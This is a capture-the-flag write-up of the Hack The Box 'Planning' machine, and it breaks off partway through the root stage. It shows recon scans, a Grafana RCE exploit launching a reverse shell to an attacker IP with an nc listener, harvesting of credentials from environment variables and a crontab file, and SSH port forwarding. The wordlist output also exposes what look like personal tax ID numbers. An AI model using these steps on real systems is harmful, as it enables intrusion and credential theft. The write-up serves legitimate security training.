 ```yaml
---
title: HTB Planning - Writeup
date: 2025-05-22 20:00:00 +0330
categories: [Writeup]
tags: []
description: My writeup of Planning from Hack The Box 

---
```


![](assets/img/planning_info.png)

## - **Recon & Enum**
As always, we start with an Nmap scan:
```shell
$ nmap -sC -sV -oN planning_nmap --min-rate=100 -p- 10.10.11.68
```

```
Nmap scan report for 10.10.11.68
Host is up (0.27s latency).
Not shown: 65468 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigated to the site and there wasn't anything that interesting and Brute forcing directories and sub domains seemed to be going no where. After browsing for a bit, I noticed an spanish comment in the home page, so I wondered and started the brute forcing with spanish wordlists and there it was, `grafana.planning.htb`.

![](assets/img/planning_comment.png)

```shell
$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-spanish.txt -u http://planning.htb --append-domain
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://planning.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-spanish.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: ALFONSO DE JESUS VELEZ RIVAS.planning.htb Status: 400 [Size: 166]
Found: CASA EDITORIAL EL TIEMPO S A.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD ELLEN MUNCH SL - CIF B85206431 - NOMBRE MUNCH ELEONORE MARGARETE ANTOINE - NIF X1107422H.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD MARCO SPINELLI SA - CIF A78310612 - NOMBRE ZARAGOZA GAMERO GEMMA - NIF 07227397S.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD TELEFONICA COMPRAS ELECTRONICAS SL - CIF B85284594 - NOMBRE MOLINA TORRES RAUL - NIF 04570270D.planning.htb Status: 400 [Size: 166]
Found: ENTIDAD GEMAUZA.planning.htb Status: 400 [Size: 166]
Found: FONDO NACIONAL DE AHORRO.planning.htb Status: 400 [Size: 166]
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```
## - **Foothold**

After looking up Grafana, there was this [exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) which looked promising. HTB provided a username and a password `admin / 0D5oT70Fq13EvB5r`.

```shell
$ python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip *.*.*.* --reverse-port 9070
```

```
$ nc -nvlp 9070
listening on [any] 9070 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.68] 43084
sh: 0: can't access tty; job control turned off
# python3 -c 'import pty;pty.spawn("/bin/bash")'
sh: 1: python3: not found
# python -v
sh: 2: python: not found
# whoami
root
```

It looks like we are in a container. Ran linpeas and found two possible breakouts, abusing container capabilities and `/proc` mount, Then I discovered `/proc` is read only. It was after revisiting the linpeas output that I saw the environment variables and there they were,  
`GF_SECURITY_ADMIN_PASSWORD=Rio----------ANT!`  
`GF_SECURITY_ADMIN_USER=enzo`

## - **User**
```
enzo@planning:~$ cat user.txt    
1595a------------------ea2d0cb32
```
We cannot run `sudo` as user enzo, so I started looking around and found something inside `/opt/crontabs/crontab.db`, a password `P4ssw0rdS0pRi0T3c`.
```
enzo@planning:/opt/crontabs$ cat crontab.db 

{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

## - **Root**
we have some service running on port `8000`.
```
enzo@planning:~$ ss -tuln
Netid                State                 Recv-Q                Send-Q                               Local Address:Port                                  Peer Address:Port                Process                
udp                  UNCONN                0                     0                                       127.0.0.54:53                                         0.0.0.0:*                                          
udp                  UNCONN                0                     0                                    127.0.0.53%lo:53                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     511                                      127.0.0.1:8000                                       0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                     127.0.0.1:45875                                      0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                 127.0.0.53%lo:53                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                    127.0.0.54:53                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                     127.0.0.1:3000                                       0.0.0.0:*                                          
tcp                  LISTEN                0                     511                                        0.0.0.0:80                                         0.0.0.0:*                                          
tcp                  LISTEN                0                     70                                       127.0.0.1:33060                                      0.0.0.0:*                                          
tcp                  LISTEN                0                     151                                      127.0.0.1:3306                                       0.0.0.0:*                                          
tcp                  LISTEN                0                     4096                                             *:22                                               *:*                                          
```

so we forward it on our localhost.
```shell
$ ssh enzo@planning.htb -L 8000:localhost:8000
```

![](assets/img/planning_local.png)

I used `top-usernames-shortlist.txt` from seclists and added enzo to it, and a password file with all the passwords we have so far. The login form uses the following structure `<username>:<password>` and then base64 encodes it.